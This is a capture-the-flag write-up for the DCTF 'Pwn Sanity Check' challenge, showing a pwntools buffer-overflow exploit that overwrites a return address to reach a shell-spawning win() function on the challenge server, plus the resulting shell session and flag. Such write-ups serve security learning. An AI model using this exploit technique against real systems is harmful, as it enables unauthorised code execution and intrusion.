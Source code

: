 ## Pwn Sanity Check (100 Points)

### Problem
```
This should take about 1337 seconds to solve.
nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480

Tags: Pwn, BOF
File: pwn_sanity_check
```

### Solution
I opened the binary in Ghidra and looked at `main()`, `vuln()` and `win()`.
The tag `BOF` was in the challenge description so I knew right away the task was to Buffer Overflow and get to a different address in memory.

In `vuln()` we know the buffer size for our input is 72 (`0x48` from hex to dec).

In `win()`, the address that made the most sense to get to was the one where the shell was being executed. In Ghidra, the address for this was `004006db`.

Great, so the approach was set. Now to write some python.


```python
from pwn import *

host = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
host.recv()

buffer_overflow = b'a'*72
buffer_overflow += p64(0x004006db)

host.sendline(buffer_overflow)
host.interactive()
```

Running our exploit...

```
❯ python3 exploit.py
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
will this work?
$ ls
flag.txt
pwn_sanity_check
startService.sh
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```


Flag: `dctf{Ju5t_m0v3_0n}`
